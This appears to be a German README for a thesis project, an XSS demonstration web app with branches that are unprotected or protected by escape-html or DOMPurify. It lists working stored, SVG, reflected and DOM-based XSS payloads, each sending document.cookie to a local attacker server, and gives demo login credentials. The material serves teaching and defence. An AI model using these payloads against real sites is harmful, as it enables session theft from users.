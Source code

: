 # Webanwendung zur Analyse und Prävention von Cross-Site-Scripting (XSS) Angriffen

Diese Webanwendung wurde im Rahmen einer Bachelorarbeit entwickelt, um XSS-Schwachstellen zu identifizieren und effektive Gegenmaßnahmen zu implementieren. Die Anwendung bietet eine Plattform, auf der verschiedene XSS-Angriffsszenarien simuliert und getestet werden können.

## Inhalt
- [Einleitung](#einleitung)
- [Technologie-Stack](#technologie-stack)
- [Installation](#installation)
- [Nutzung](#nutzung)
- [Struktur der Anwendung](#struktur-der-anwendung)
- [Mögliche Attacken](#mögliche-attacken)
- [Anmekrung](#anmerkung)
- [Lizenz](#lizenz)

## Einleitung

Diese Anwendung dient als Demonstrations- und Testumgebung für verschiedene XSS-Angriffe und die dazugehörigen Schutzmaßnahmen. 
Sie wurde entwickelt, um die Sicherheitsanforderungen moderner Webanwendungen zu untersuchen und um praxisnahe Lösungen für XSS-Probleme zu bieten.


## Technologie-Stack

### Backend
- **Node.js**: Laufzeitumgebung für serverseitiges JavaScript
- **Express.js**: Webframework für Node.js zur Erstellung von Webanwendungen und APIs
- **MongoDB**: NoSQL-Datenbank zur Speicherung von Daten
- **Mongoose**: Objekt-Datenmodellierungstool für MongoDB und Node.js

### Frontend
- **HTML**: Strukturierung der Webseite
- **CSS**: Gestaltung der Webseite
- **Bootstrap**: CSS-Framework zur schnellen Gestaltung von responsiven Webanwendungen

## Installation

1. **Repository klonen:**
   ```bash
   git clone https://github.com/Bemast3r/XSS.git
2. **Ordner wechsel**
   ```bash
   cd XSS
3.  **Alles nötige installieren:**
    ```bash
    npm run update
4. **Server starten:**
Der Befehl `npm start` im Root-Ordner startet sowohl den Angreifer-Server als auch den Webanwendungs-Server:
    ```bash
    npm run start
Für das jeweilige Starten der Server kann dies erreicht werden in dem man in den jeweiligen Ordner gewechselt wird.

## Nutzung

Diese Webanwendung bietet die Möglichkeit, zwischen verschiedenen Branches zu wechseln, die unterschiedliche XSS-Gegenmaßnahmen implementieren:

- main Branch: Keine Gegenmaßnahme implementiert. Dieser Branch dient als Ausgangspunkt zur Untersuchung von XSS-Angriffen ohne Schutzmechanismen.
- html-escape Branch: In diesem Branch wird die Bibliothek escape-html verwendet, um Benutzereingaben zu entschärfen und somit XSS-Angriffe zu verhindern.
- DOMPURIFY Branch: Dieser Branch verwendet die Bibliothek DOMPurify, um potenziell gefährliche HTML-Eingaben zu bereinigen und XSS-Angriffe zu verhindern.

## Struktur der Anwendung

- **Attacker**: Beinhaltet den Hacker-Server
- **backend**: Ist der Backend-Server der Webanwendung
- **frontend**: Ist das Frontend und beinhaltet die HTML-Seiten

## Mögliche Attacken

- Stored XSS 
    - Ort: Biografiefeld im User Profile
    - Test-XSS-Payload: 
        - ``<img src="invalid_image.png" onerror="this.src='http://localhost:4000/xss_bild?cookie=' + encodeURIComponent(document.cookie);">``

- Stored XSS via SVG
    - Ort: Community.html
    - Vorbereitung:
      Zuerst muss eine SVG-Datei erstellt werden:
    - Test-XSS-SVG-Payload:
        ```html
        <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
            <image xlink:href="x" onerror="javascript:window.location='http://localhost:4000/xss_bild?cookie=' + encodeURIComponent(document.cookie);"/>
        </svg>
        ```
    - Anschließend diese Datei über das Uploadfeld hochladen

- Reflected XSS
        - Ort: Search 
    - Test-XSS-Payload: 
        - ``<audio src=1 href=1 onerror="javascript:http://localhost:4000/xss_bild?cookie=' + encodeURIComponent(document.cookie);"></audio>``
- DOM-BASED XSS
        - Ort: EchoInput - Eingabefeld
    - Test-XSS-Payload: 
        - In Browser Suchleiste:    
            - ``http://localhost:3000/Echoinput.html?input=%3Cimg+src%3D+%22keinbild%22onerror%3D%22javascript%3Awindow.location%3D%27http%3A%2F%2Flocalhost%3A4000%2Fxss%3Fcookie%3D%27+%2B+encodeURIComponent%28document.cookie%29%3B%22%3E%3C%2Fimg%3E``

## Anmerkung

Die Payloads sind ebenfalls in der Datei `xss_payload.txt` zu finden. Diese Datei befindet sich im Verzeichnis `Attacker/src/xss_payload.txt`.
Zum Einlogen in die Seite kann sowohl: 
```bash
name: Admin password:abcABC123! 
```
```bash 
name: User password:abcABC123! und 
``` 
und für das Biografiefeld:
```html
<b>Willkommen auf meiner Seite!</b> <img src="https://i.imgur.com/6Rv8Pp9.gif"/> 
```
und wenn man dass XSS haben möchte

```html
<img src="invalid_image.png" onerror="this.src='http://localhost:4000/xss_bild?cookie=' + encodeURIComponent(document.cookie);">
```

## Lizenz
Dieses Projekt ist unter der MIT-Lizenz lizenziert.
